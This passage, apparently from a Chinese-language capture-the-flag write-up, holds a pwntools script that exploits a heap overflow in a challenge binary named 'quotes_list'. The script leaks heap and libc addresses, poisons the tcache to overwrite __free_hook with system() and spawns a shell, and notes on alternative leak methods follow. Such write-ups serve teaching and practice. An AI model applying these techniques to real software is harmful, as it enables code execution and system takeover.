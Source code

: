 ```python
create(0x1e0, b'\xcc'*(0x100 + 0x18)) # add 1, write to tcache chunk 
show(1)
r.recvuntil(b'\xcc'*0x118)
heap = u64(r.recv(6).ljust(8, b'\x00'))
info(f"heap: {hex(heap)}")
edit(1, b'\xcc'*0x100 + p64(0) + p64(0x31) + p64(heap + 0x3c0))
create(0x28, b'\xaa') # add 2
create(0x28, b'\xaa') # add 3
show(3)
r.recvuntil('Quote: ')
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x3aecaa
info(f"libc: {hex(libc)}")
edit(3, p64(libc + 0x3aeca0)*2)
__free_hook = libc + 0x3b08c8
_system = libc + 0x41bf0
edit(1, b'\xff'*0x100 + p64(0) + p64(0x51))
delete(2) # del 2
edit(1, b'\xff'*0x100 + p64(0) + p64(0x51) + p64(__free_hook-0x8) + p64(heap))
create(0x48, b'\xaa') # add 2
create(0x48, b"/bin/sh\x00" + p64(_system)) # add 4
delete(4)

r.interactive()
```

不過這題原本想透過 top_chunk 來寫到 `__free_hook`，不過因為 `__free_hook` 上面找不到 valid 的 chunk header，因此最後還是用 tcache 來做 exploit。

- `LD_PRELOAD=./libc.so.6 ./ld-linux-x86-64.so.2 ./quotes_list` 可以直接用其他 linker 來 link binary
- 有其他做法 leak 的做法: allocate largebin chunk 並把他 free 掉，之後 allocate 時就會拿到此 chunk，並且會殘留 libc (fd, bk) 以及 heap (fd_nextsize, bk_nextsize)